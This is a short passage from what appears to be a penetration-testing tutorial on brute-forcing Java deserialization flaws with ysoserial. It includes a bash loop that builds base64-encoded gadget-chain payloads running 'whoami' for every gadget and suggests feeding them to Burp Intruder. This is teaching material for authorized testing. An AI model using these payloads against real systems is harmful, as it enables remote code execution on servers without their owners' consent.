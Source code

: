 



#### Bruteforce Attack with Ysoserial

When approaching an application that utilizes serialized java data, we do not know what libraries are used by the back end.

In such a case, a brute force approach might be rewarding. You might want to generate all possible ysoserial payloads and then try each of them against the target software.



A brute force approach can be performed using a script similar to the below.

Assume that payloads.txt contains all ysoserial payload names one per line.

```bash
while read payload;
do echo -en "$payload\n\n";
java -jar ysoserial.jar $payload "whoami" | base64 | tr -d '\n' > payloads/$payload.ser;
echo -en "-----------------------------------------------\n\n"; 
done < payloads.txt
```

The script will run and create a base64 encoded serialized payload for each vulnerable library. T he result files can be further used in Burp Intruder attacks.

![](./assets/5.png)



However, you might notice that some of the payloads cause yoserial to throw an error . This is because some payload names must be used in a specific way.

![](./assets/6.png)




